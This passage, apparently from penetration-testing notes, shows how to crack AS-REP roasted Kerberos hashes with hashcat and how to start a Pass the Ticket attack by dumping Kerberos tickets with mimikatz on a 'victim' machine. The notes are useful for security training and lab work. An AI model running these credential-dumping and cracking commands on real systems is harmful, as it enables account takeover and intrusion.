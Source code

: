 **Kali**

Transfer the hash from the target machine over to kali and put the hash into a txt file. Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User... .The below command does the replace and clean up the output so hashcat can recognize the hashes.

```
cat hashes.txt | sed 's/[[:space:]]//g' |tr -d '\n'| sed 's/$krb5asrep/\n&/g' | sed  's/$krb5asrep/$krb5asrep$23/g'  > hash.txt
hashcat -m 18200 hash.txt Pass.txt
```

Both passwords cracked.

```
hashcat -m 18200 hash.txt Pass.txt --show
```

<figure><img src="../../.gitbook/assets/image (4) (8).png" alt=""><figcaption></figcaption></figure>

## Pass the Ticket w/ mimikatz

### Prepare Mimikatz & Dump Tickets

**Victim**

```
cd Downloads
mimikatz.exe
```

**Victim - Mimikatz**

```
privilege::debug
sekurlsa::tickets /export
```

